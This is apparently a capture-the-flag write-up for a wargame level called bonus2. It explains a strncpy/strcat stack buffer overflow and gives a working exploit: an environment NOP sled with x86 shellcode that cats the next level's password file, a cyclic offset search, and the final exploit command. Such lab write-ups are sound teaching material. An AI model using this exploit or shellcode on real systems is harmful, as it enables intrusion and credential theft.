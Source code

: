 # bonus2

This binary takes in two arguments, and outputs "Hello " followed by the first argument. If the environment variable `LANG` starts with "fi" or "nl", instead of "Hello " it will write "Hyvää päivää " or "Goedemiddag! ", respectively.

The `main` function copies 40 bytes from `argv[1]` and 32 bytes from `argv[2]` on the stack. It then sets a `language` to 1 or 2 if LANG starts with fi or nl. After all this, `greetuser` is called.

The `greetuser` allocates a 72 bytes buffer on the stack, and depending on `language`, copies the greeting in it, and then `strcat`'s the string it took as argument in the buffer. Finally, `puts` is called with the buffer.

The main vulnerability lies in the call to `strcat`. We could use it to overflow `greetuser`'s buffer and overwrite `EIP`'s saved value on the stack.

The only problem is, the argument given to `greetuser` comes from an `strncpy` limiting it to 40 bytes, which can't overflow the 72 bytes buffer. Thankfully, `strncpy` isn't safe, and will not write a `\0` if the source is equal or greater to the given size.

And because of how the buffers are located on `main`'s stack, if the first argument is at least 40 bytes long, the second argument will be "concatenated" to the first, making it so that `greetuser`'s argument can be as big as 72 bytes long, with no null terminator. Adding that to the greeting makes it overflow the buffer for sure!

The last issue is that we still cannot overwrite `EIP`, as we are a couple of bytes short. We can overcome this by changing to one of the two other languages, whose greeting are longer than the default English one.

Using a cyclic pattern we find out that with `LANG=fi` we need an offset of 18 bytes on the second argument before overwriting `EIP`'s saved value.

```
pwndbg> cyclic 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

[...]

Program received signal SIGSEGV, Segmentation fault.
0x61666161 in ?? ()

[...]

pwndbg> cyclic -l 0x61666161
Finding cyclic pattern of 4 bytes: b'aafa' (hex: 0x61616661)
Found at offset 18
```

Now all we need to do is add our shellcode into the env, with a nopslide for a change.

By the way, a nopslide is basically a long chain of "non-operations", the simplest one being the `nop` instruction, which literally does nothing. Since the addresses of the env can vary, notably between inside and outide of GDB, having a nopslide means having a large window of addresses which will eventually lead to our shellcode.

```bash
bonus2@RainFall:~$ LANG=fi SHELLCODE=$(python -c 'print "\x90"*1024 + "\x31\xd2\x31\xc0\x52\x68pass\x683//.\x68onus\x68er/b\x68e/us\x68/hom\x89\xe1\x50\x68/cat\x68/bin\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"') gdb ./bonus2 
[...]
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r $(python -c 'print "a"*40 + " " + "."*18 + "\xb0\xba\xca\xfe"[::-1]')
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "a"*40 + " " + "."*18 + "\xb0\xba\xca\xfe"[::-1]')

Breakpoint 1, 0x0804852f in main ()
(gdb) x/10s *environ 
0xbffff4cb:	"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffff593:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffff65b:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffff723:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffff7eb:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xbffff8b3:	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\322\061\300Rhpassh3//.honusher/bhe/ush/hom\211\341Ph/cath/bin\211\343PQS\211\341\260\v\315\200"
0xbffff911:	"SHELL=/bin/bash"
0xbffff921:	"TERM=xterm-256color"
0xbffff935:	"SSH_CLIENT=192.168.56.1 49528 4242"
0xbffff958:	"SSH_TTY=/dev/pts/0"
```

We see here that our `SHELLCODE` environment variable starts at `0xbffff4cb`, and is filled with `nop` (the `\x90` we wrote, that are represented here as `\220`) until a bit after `0xbffff8b3`. Let's select an address in the middle of our nopslide, to account for any shift that might happen in the env: `0xbffff65b`.

Now we can change our placeholder address `0xb0bacafe` with our real target and voilà!

```bash
LANG=fi SHELLCODE=$(python -c 'print "\x90"*1024 + "\x31\xd2\x31\xc0\x52\x68pass\x683//.\x68onus\x68er/b\x68e/us\x68/hom\x89\xe1\x50\x68/cat\x68/bin\x89\xe3\x50\x51\x53\x89\xe1\xb0\x0b\xcd\x80"') ./bonus2 $(python -c 'print "a"*40 + " " + "."*18 + "\xbf\xff\xf6\x5b"[::-1]')
```

Enää yksi jäljellä!